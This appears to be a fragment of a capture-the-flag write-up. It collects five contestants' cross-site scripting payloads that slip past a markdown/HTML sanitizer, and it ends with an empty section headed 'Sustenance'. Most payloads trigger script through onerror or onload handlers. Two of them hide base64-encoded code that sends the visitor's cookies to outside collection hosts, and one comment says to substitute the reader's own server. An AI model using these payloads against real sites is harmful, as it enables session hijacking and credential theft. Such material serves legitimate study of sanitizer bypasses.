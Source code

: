 ```
1. Strellic
// it stops parsing the tag after the newline
<a title="a

<img src=x onerror=alert(1)>">yep</a>

2. maple3142
[x](y '<style>')<!--</style><div id="x--><img src=1 onerror=alert(1)>"></div>

3. lebronli1986
[<p x='<style onload=eval(atob(/bG9jYXRpb249YGh0dHBzOi8vd2ViaG9vay5zaXRlL2FiM2IyYjg5LTg1YTktNGU0YS1hNjg0LTUxN2M1ZjQwNmZmMj9mPWArZW5jb2RlVVJJQ29tcG9uZW50KGRvY3VtZW50LmNvb2tpZSk/.source))>](#'></p>)

4. taidh
// Decode base64 and change to YOUR_VPS
// ?content=[payload bellow]
[<form id="<svg onload=eval(atob(location.hash.slice(1)))>](">)#ZmV0Y2goJ2h0dHBzOi8vejhmeGlqbjEucmVxdWVzdHJlcG8uY29tP2NjPScrZG9jdW1lbnQuY29va2llKQ==

5. fhantke
// the markdown inline code ` is prioritized over the HTML element and breaks it.
`<p x="`<img src=x onerror=alert(1)>"></p>
```

## Web Challenge: Sustenance

### Description/Source

### Solver

```python

```
